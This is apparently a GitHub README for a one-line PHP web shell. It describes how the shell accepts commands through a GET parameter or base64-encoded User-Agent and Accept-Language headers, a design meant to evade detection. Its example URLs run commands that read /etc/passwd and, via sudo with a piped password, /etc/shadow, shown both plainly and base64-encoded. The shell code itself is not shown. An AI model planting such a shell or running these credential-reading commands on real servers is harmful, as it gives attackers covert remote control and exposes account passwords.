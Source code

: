 # OLPWS
One Liner PHP Web Shell


## For testing
You can use the internal web server of PHP like this:

```bash
php -S localhost:[port] shell.php
```

## Features
It reads commands from:
* Using GET method: `$_GET['e']`
* Using HTTP User-Agent: define the user-agent header with a base64_encoded payload
* Using HTTP Accept-Language: define the accept-language header with a base64_encoded payload

It automaticaly detects and decode base64_encoded payloads.


## Examples
Somes examples:
* http://host:port/?e=cat%20/etc/passwd
* http://host:port/?e=Y2F0IC9ldGMvcGFzc3dk (the same but base64_encoded)
* http://host:port/?e=echo%20password%20|%20sudo%20-S%20cat%20/etc/shadow
* http://host:port/?e=ZWNobyBwYXNzd29yZCB8IHN1ZG8gLVMgY2F0IC9ldGMvc2hhZG93 (the same but base64_encoded)


## Credits
Ideas comes from:
* http://www.grobinson.me/single-line-php-script-to-gain-shell/
* https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/
